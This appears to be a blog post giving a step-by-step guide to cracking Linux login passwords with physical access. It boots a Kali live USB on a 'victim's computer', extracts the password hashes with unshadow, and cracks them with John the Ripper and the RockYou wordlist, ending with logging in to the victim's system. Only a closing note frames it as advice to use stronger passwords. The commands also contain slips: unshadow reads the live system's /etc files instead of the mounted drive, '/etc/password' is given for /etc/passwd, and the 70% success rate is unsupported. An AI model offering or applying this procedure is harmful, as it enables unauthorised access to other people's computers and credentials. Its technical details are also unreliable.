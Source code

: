 ```yaml
---
title: "How to crack almost any OS password "
date: 2023-01-16T02:33:48+05:30
draft: false
description: "use john-the-ripper to actually crack the login passwords of almost any computer"
tags: [kali, cybersecurity]
---
```


## Introduction

Use the infamous [RockYou.txt](https://github.com/ohmybahgosh/RockYou2021.txt) password list containing 14 million used passwords to brute force the user passwords in almost any system you've got

> Your computer is not safe, make your password stronger

## Overview

- boot into the system using kali live usb
- create a hash of etc password and etc shadow (default location where passwords are stored in Linux)
- crack it using tools like john the ripper

## Steps

1. Create a live USB of Kali Linux
2. Boot into this usb from the victim's computer
3. mount the root partition under /mnt

```bash
lsblk # shows connected drives
mount /dev/sda2 /mnt  # mount the drive in /mnt. You'll have to change the sda name according to lsblk output
```

4. Navigate to etc from /mnt and create hash out of shadow and password file using the `unshadow` util of kali linux. Save this in the home directory

> In linux, the passwords of all users are stored as a hash in a /etc/shadow file. The corresponding names can be taken from `/etc/password` file

```bash
sudo unshadow /etc/passwd /etc/shadow > ~/shadowhash #storing the unshadowed file in home directory
```

5. Crack this using tools like [john-the-ripper](https://www.openwall.com/john/). Pass in a wordlist if the password may be complex.

```bash
john --format=crypt shadowhash
# or
john shadowhash --wordlist=/usr/share/wordlists/rockyou.txt
```

This should give you the password in plain text format for the victim's OS in 70% + cases.

<br>
Reboot the system and log in to the victim's OS with cracked password to gain full access to the system.

Note: This article focuses only on Linux machines. However, keep in mind that similar thing can be used for Windows systems as well.

<hr/>

P.S. It goes without saying that the purpose of the article is to show that we need to have a really complex password in our computers. Otherwise it can be cracked like above. Use proper long passwords containing both alphanumeric and special characters. Add a personal tinge something to the password as well so that it cannot be directly matched from a wordlist.

The End
